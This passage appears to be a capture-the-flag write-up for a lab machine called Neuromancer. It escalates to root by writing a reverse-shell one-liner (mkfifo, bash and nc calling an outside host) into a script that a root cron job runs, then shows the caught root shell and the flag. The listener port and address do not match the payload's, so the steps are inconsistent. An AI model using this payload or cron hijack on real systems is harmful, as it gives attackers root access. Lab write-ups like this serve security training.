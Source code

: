 ```bash
lady3jane@neuromancer:~$ cat custom-tomcat-chk.sh 
#!/bin/bash
# Health check for Neuromancer (root) to execute every 3 minutes.
# ..the AI tells me it can maintain security, server health, etc w/o forced intervention,
# but I beg to differ...hence the cron script.

> /tmp/tomcat_status.log

health=$(curl -m 5 -Is 127.0.0.1:8080 |grep HTTP/1.1)

case "$health" in

  *200*)
        echo "Tomcat is Up" > /tmp/tomcat_status.log
        ;;
  *)
        echo "Tomcat is down" > /tmp/tomcat_status.log
        ;;
  esac
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/bash -i 2>&1|nc 192.168.157.5 8089 >/tmp/g
```

After waiting a while for the reverse connection, I didn’t get a shell back. I thought the issue was with the socat tunnel, so I tried getting a reverse shell on the straylight machine, but that didn’t work either, so it seems the script is not actually being run.

After looking around, I didn’t really find anything else. So I tried to run linpeas, which didn’t really give me any interesting information. So I thought of running pspy to see if maybe there was another cronjob being run by root, which panned out.

```bash
2025/01/13 02:36:01 CMD: UID=0     PID=22789  | /bin/bash /home/lady3jane/server-check.sh
```

We can see that there is a process called by root, to /home/lady3jane/server-check.sh. So it seems that the script is named differently. Maybe this was a mistake on the author’s part or maybe they put that there to confuse us.

Anyways, now that we know that root is running /home/lady3jane/server-check.sh, we can go ahead and create that file with our malicious command.

```bash
lady3jane@neuromancer:~$ cat server-check.sh 
#!/bin/bash
rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/bash -i 2>&1|nc 192.168.157.5 8089 >/tmp/g
```

Now let’s set up our listener and wait for the shell

```bash
nc -lvnp 4247
listening on [any] 4247 ...
connect to [192.168.56.103] from (UNKNOWN) [192.168.56.102] 43674
bash: cannot set terminal process group (22835): Inappropriate ioctl for device
bash: no job control in this shell
root@neuromancer:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@neuromancer:~# ls 
ls
flag.txt
struts2
velocity.log
root@neuromancer:~# cat flag.txt
cat flag.txt
be3306f431dae5ebc93eebb291f4914a
root@neuromancer:~#
```